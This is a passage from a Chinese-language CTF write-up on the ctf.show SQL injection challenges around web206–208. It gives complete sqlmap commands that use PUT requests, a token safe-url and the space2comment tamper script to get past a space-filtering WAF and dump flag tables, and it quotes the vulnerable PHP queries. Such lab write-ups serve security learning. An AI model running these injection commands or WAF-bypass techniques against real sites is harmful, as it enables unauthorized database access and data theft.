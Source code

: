 这里 sql 语句闭合方式变化了，

* `--prefix=PREFIX` –> 攻击载荷的前缀
* `--suffix=SUFFIX` –> 攻击载荷的后缀

其实不使用，sqlmap也可以判断出来。

```python
python2 sqlmap.py -u "http://a3eb3756-01fe-4ca1-a236-21d47920bd25.chall.ctf.show/api/index.php" --method=PUT --data="id=1" --referer=ctf.show --dbms=mysql -D "ctfshow_web" -T "ctfshow_flaxc" -C "flagv" --dump  --headers="Content-Type: text/plain" --safe-url=http://a3eb3756-01fe-4ca1-a236-21d47920bd25.chall.ctf.show/api/getToken.php --safe-freq=1 --batch
```

## web207~tamper脚本过空格

> --tamper 的初体验

> ```
>  function waf($str){
>    return preg_match('/ /', $str);
>   }
> ```

直接使用sqlmap自带 tamper 脚本，绕过空格过滤

```python
python2 sqlmap.py -u "http://9ebc2f80-ebe8-4ac2-8b2c-0283b6fce95b.chall.ctf.show/api/index.php" --method=PUT --data="id=1" --referer=ctf.show --headers="Content-Type:text/plain" --safe-url="http://9ebc2f80-ebe8-4ac2-8b2c-0283b6fce95b.chall.ctf.show/api/getToken.php" --safe-freq=1 --dbs --tamper=space2comment --batch
```

```python
python2 sqlmap.py -u "http://2fe69805-4831-45bb-b61c-a146cd3e448b.chall.ctf.show/api/index.php" --method=PUT --data="id=1" --referer=ctf.show --headers="Content-Type:text/plain" --safe-url="http://2fe69805-4831-45bb-b61c-a146cd3e448b.chall.ctf.show/api/getToken.php" --safe-freq=1 -D ctfshow_web -T ctfshow_flaxca --dump --tamper=space2comment --batch
```

## web208

> --tamper 的2体验
>
> 查询语句
>
> ```
> //拼接sql语句查找指定ID用户
> $sql = "select id,username,pass from ctfshow_user where id = ('".$id."') limit 0,1;";
>       
> ```
>
> 返回逻辑
>
> ```
> //对传入的参数进行了过滤
> // $id = str_replace('select', '', $id);
>   function waf($str){
>    return preg_match('/ /', $str);
>   }
>       
> ```

